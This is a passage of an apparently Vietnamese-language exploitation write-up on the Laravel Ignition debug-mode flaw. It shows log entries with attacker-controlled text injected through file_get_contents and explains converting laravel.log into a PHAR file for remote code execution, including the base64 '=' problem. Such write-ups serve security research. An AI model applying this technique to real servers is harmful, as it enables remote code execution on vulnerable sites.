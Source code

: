 ```./storage/log/laravel.log
[2021-01-11 12:39:44] local.ERROR: file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory {"exception":"[object] (ErrorException(code: 0): file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory at /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError()
#1 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(75): file_get_contents()
#2 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(67): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->makeOptional()
#3 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Http/Controllers/ExecuteSolutionController.php(19): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->run()
#4 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Routing/ControllerDispatcher.php(48): Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController->__invoke()
[...]
#32 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\\Pipeline\\Pipeline->Illuminate\\Pipeline\\{closure}()
#33 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\\Pipeline\\Pipeline->then()
#34 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\\Foundation\\Http\\Kernel->sendRequestThroughRouter()
#35 /work/pentest/laravel/laravel/public/index.php(52): Illuminate\\Foundation\\Http\\Kernel->handle()
#36 /work/pentest/laravel/laravel/server.php(21): require_once('/work/pentest/l...')
#37 {main}
"}
```
Vậy là chúng ta có thể có thể đưa nội dung tùy ý vào một file. Sau đó chuyển đổi file log thành file PHAR và sử dụng phar để RCE :smiley:

Tuy rằng nghe có vẻ dễ như vậy nhưng thật ra có rất nhiều vấn đề
## Convert file
Như ở trên, ta biết rằng PHP sẽ bỏ qua bất kỳ badchar nào khi sử dụng base64-decoding. Điều này đúng, ngoại trừ một character: `=`. Nếu bạn sử dụng `base64-decode filter` một chuỗi có chứa `=` ở giữa, PHP sẽ tạo ra lỗi và không trả về kết quả nào.

Chúng ta có thể khắc phục được điều này nếu chúng ta có thể control được nội dung file đó. Tuy nhiên, payload chúng ta đưa vào file log chỉ là một phần rất nhỏ của nó. Ở mỗi đoạn log sẽ có 1 đoạn prefix (timestamp) -> Payload -> suffix (stack strace). Hơn nữa, payload lại xuất hiện2 lần trong file log như ví dụ dưới đây:

```./storage/logs/laravel.log
[2021-01-13 11:09:46] local.ERROR: file_get_contents(PAYLOAD): failed to open stream: No such file or directory {"exception":"
[object] (ErrorException(code: 0): file_get_contents(PAYLOAD): failed to open stream: No such file or directory at /var/www/html/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError(2, 'file_get_conten...', '/var/www/html/v...', 75, Array)
```
